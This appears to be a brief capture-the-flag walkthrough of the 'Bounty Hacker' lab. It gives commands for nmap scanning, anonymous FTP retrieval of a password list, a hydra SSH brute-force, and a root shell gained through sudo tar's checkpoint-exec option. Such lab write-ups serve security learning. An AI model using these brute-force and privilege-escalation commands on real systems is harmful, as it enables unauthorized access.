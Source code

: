 # Bounty Hacker

> thegurpreet | Mar 2021

##Gaining system access

Setting ip variable
```
export ip=10.10.239.129
```

Scanning ports using nmap. Found FTP, SSH and HTTP port open

```
sudo nmap -sV -sC $ip
```

As per NMAP result above user is ftp and anonymous login is allowed
```
ftp $ip
```

Check available files and download locally to review them
```
dir
get locks.txt
get task.txt
```

User hydra to bruteforce SSH with user mentioned in task list
```
hydra -l lin -P locks.txt ssh://$ip:22
```

## Privilege Escalation

Check available sudo commands
```
sudo -l
```

Check information about sudo tar on gtfobins
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


Root access!!